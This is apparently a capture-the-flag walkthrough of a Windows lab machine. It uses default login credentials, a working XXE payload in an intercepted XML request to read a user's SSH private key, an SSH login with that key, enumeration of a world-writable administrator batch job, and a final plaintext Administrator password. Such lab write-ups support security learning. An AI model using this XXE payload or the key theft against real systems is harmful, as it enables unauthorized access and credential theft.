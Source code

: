1. Now i enter the website with port 80 and I can access login page. There is credential here "admin:password".
---------------------------------------------------------------------------------------------------------------
2. Then I intercept the request via using burp suite.
```bash
POST /process.php HTTP/1.1

Host: 10.129.160.19

Content-Length: 194

Accept-Language: en-US,en;q=0.9

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36

Content-Type: text/xml

Accept: */*

Origin: http://10.129.160.19

Referer: http://10.129.160.19/services.php

Accept-Encoding: gzip, deflate, br

Cookie: PHPSESSID=kceoj84vge4j92e0boocgj4j0k

Connection: keep-alive



<?xml version = "1.0"?>

<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>

<order><quantity>

3

</quantity><item>

&test;

</item><address>chennai</address></order>
```
------------------------------------------------------------------------------------------
3. After visiting the source code i can find that user daniel and I approached to fins the ssh keys finaly i got it there.
-------------------------------------------------------------------------------------------
4.
```bash
ssh -i id_rsa daniel@10.129.160.19     
The authenticity of host '10.129.160.19 (10.129.160.19)' can't be established.
ED25519 key fingerprint is SHA256:v2qVZ0/YBh1AMB/k4lDggvG5dQb+Sy+tURkS2AiYjx4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.160.19' (ED25519) to the list of known hosts.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

daniel@MARKUP C:\Users\daniel>
```
--------------------------------------------------------------------------------------------
5.
```bash
PS C:\Users\daniel> cd C:\
PS C:\> dir


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/12/2020   3:56 AM                Log-Management
d-----        9/15/2018  12:12 AM                PerfLogs
d-r---        7/28/2021   2:01 AM                Program Files
d-----        9/15/2018  12:21 AM                Program Files (x86)
d-r---         3/5/2020   4:40 AM                Users
d-----        7/28/2021   2:16 AM                Windows
-a----        7/28/2021   3:38 AM              0 Recovery.txt


PS C:\> cd log-Management
PS C:\log-Management> dir


    Directory: C:\log-Management


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         3/6/2020   1:42 AM            346 job.bat


PS C:\log-Management> type job.bat
@echo off
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit
PS C:\log-Management> icacls job.bat
job.bat BUILTIN\Users:(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
PS C:\log-Management>
```
---------------------------------------------------------------------------------------
6. Administrator:Yhk}QE&j<3M
